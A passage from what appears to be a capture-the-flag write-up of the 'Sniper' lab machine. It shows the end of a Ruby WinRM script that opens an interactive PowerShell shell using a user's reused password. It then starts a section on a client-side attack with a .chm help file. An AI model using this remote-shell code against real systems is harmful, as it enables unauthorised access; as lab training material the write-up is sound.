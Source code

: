     command=""

    conn.shell(:powershell) do |shell|
        until command == "exit\n" do
            print "PS > "
            command = gets        
            output = shell.run(command) do |stdout, stderr|
                STDOUT.print stdout
                STDERR.print stderr
            end
        end    
        puts "Exiting with code #{output.exitcode}"
    end
    ```
    - All that's left to do is run the script, and discover that Chris has been re-using his passwords! `ruby winrm.rb`
    pwd
    ![Image](/assets/img/sniper/sniper_privesc_winrm.png)

### Client-Side Attack via .chm File

I started poking around the filesystem with my shell as Chris and found a couple of interesting things. First, in Chris' Downloads folder was a file **instructions.chm** (compiled HTML format - often used for displaying "help"). Secondly, the directory **C:\Docs** looked unusual, and a file inside called **note.txt** contained the following:
